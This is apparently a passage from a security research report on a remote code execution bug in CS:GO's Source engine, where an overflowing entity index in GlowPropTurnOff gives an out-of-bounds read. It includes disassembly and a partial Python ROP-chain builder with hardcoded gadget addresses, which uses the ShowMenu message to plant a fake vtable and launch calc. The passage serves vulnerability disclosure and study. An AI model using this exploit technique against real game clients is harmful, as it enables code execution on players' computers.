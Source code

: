 
# Exploiting the vulnerability
I will be discussing the `GlowPropTurnOff` message specifically for the remainder of this report, however this OOB read pattern exists in other messages too. I have successfully tested this on a couple of other CS:GO user messages, and while I haven't tested it I also suspect that this bug pattern exists in the network messages of other Source games as well.

This is the assembly used to access the `entitylist` array:
```asm
mov     eax, ent_idx
test    eax, eax
js      short loc_103B77A2
shl     eax, 4
mov     ecx, entitylist[eax]
```

The index is shifted left by 4 bits (`shl eax, 4`) before being used to access `entitylist`. This means that we can supply a large positive number that will overflow to a negative number, allowing us to return a pointer to pretty much anywhere in the module. Our goal will be to supply an index that returns a pointer to some memory that we control on the client. This memory will have the required vtable set up so that when `handle->GetBaseEntity()` is called it will call an address that we control.

Following a writeup of a similar bug (https://insomnihack.ch/wp-content/uploads/2017/04/AC_remote_exploitation_of_valve_source.pdf), I chose to use the [`ShowMenu`](https://github.com/SteamDatabase/Protobufs/blob/7c7bc10a1ed346a88cc6b9c13d6642578a9ecd50/csgo/cstrike15_usermessages.proto#L417-L421) message to set up the needed memory on the client. The `ShowMenu` message takes the `menu_string` supplied from the server, converts it to UTF16, and stores it in a global string variable `wchar_t g_szMenuString[512]`.

I wrote the following Python script to generate the payload needed to send through the `ShowMenu` message to set up a fake object with a valid vtable and also includes the ROP chain needed to pop calc:
```py
from pwn import *
import textwrap

BASE_ADDRESS        = 0x287E0000
FAKE_OBJ            = BASE_ADDRESS + 0x3174F3C

SHELL_EXECUTE_ADDR  = BASE_ADDRESS + 0xA8F244

GADGET_XCHG_EAX_ESP = BASE_ADDRESS + 0xA2AAD1
GADGET_POP_ESP      = BASE_ADDRESS + 0x7E031C
GADGET_POP_EAX      = BASE_ADDRESS + 0x4a925
GADGET_POP_EDI      = BASE_ADDRESS + 0x2f00C6
GADGET_MOV_EAX_EDI  = BASE_ADDRESS + 0x74215
GADGET_MOV_EAX_EAX  = BASE_ADDRESS + 0x73c92
GADGET_XOR_EAX_EAX  = BASE_ADDRESS + 0xb4279
GADGET_XCHG_EAX_EDI = BASE_ADDRESS + 0x1da80f

def to_unicode(dword):
    a = dword & 0xffff;
    b = dword >> 16;
    return eval('u"\\u%s\\u%s"' % (hex(a)[2:].zfill(4), hex(b)[2:].zfill(4)))

def write(addr, value):
    rop = u''
    rop += to_unicode(GADGET_POP_EAX)
    rop += to_unicode(addr)
    rop += to_unicode(GADGET_POP_EDI)
    rop += to_unicode(value)
    rop += to_unicode(GADGET_MOV_EAX_EDI)
    return rop

```